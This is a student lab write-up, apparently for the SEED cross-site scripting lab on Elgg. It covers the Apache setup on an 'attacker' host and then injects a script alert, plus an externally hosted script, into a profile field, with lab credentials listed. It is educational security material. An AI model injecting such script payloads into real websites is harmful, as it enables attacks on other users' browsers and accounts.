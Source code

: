 After that, we added the following lines to **attacker's** "*/etc/apache2/sites-available/000-default.conf*" file. We defined the root directory to "*/var/www/example.com*" (also used the command `sudo mkdir` to create the directory). Furthermore, we made the dir "*/home/seed/Labs/w5/xss*" accessible by a url "*www.example.com/xss*" and also did that for all subdirs. 

``` Apache
<VirtualHost *:80>
        ServerName http://www.example.com
        DocumentRoot /var/www/example.com
        Alias /xss /home/seed/Labs/w5/xss
        <Directory /home/seed/Labs/w5/xss>
                    Require all granted
        </Directory>
</VirtualHost>
```

### 0.4 Restart the service

We executed the command below on **attacker** to make our configuration work.
```
$ sudo service apache2 restart
```
PS. we found that the command `sudo service apache2 start` in task document does **not** work. 

<div style="page-break-after: always;"></div>

## TASK01: Malicious Message to Display an Alert Window

### 1.1 Insert malicious codes directly

We logged in the website *http://www.xsslabelgg.com* as Samy (from the victim browser). We used the username and password in our task document, which are also listed below .
>  UserName: samy
>  Password: seedsamy

As image below shows, We modified the content of his **Brief description** to a simple javascript code section, `<script>alert("XSS");</script>`. We also made its public to everyone, so that it could be insert to the webpage when someone access Samy's profile.  

<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_a9c14d55f1c715b89340a87e4a7b5175.png"/>


After that, we logged in as Alice to access Samy's profile.
>  UserName: alice
>  Password: seedalice

There was a popped-out dialogue box after opening the webpage, which actually proven there is a XSS vulnerability here.  

<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_92f36c2a7ddb0c849eeaf5e69745a000.png"/>



### 1.2 Import malicious codes by a link
This case we modified the content of Samy's **Brief Description** as the code section below.  
```javascript
<script type="text/javascript"  
    src="http://www.example.com/xss/task01/myscripts.js">
</script>
```
As the image below shows, the imported script also worked.  
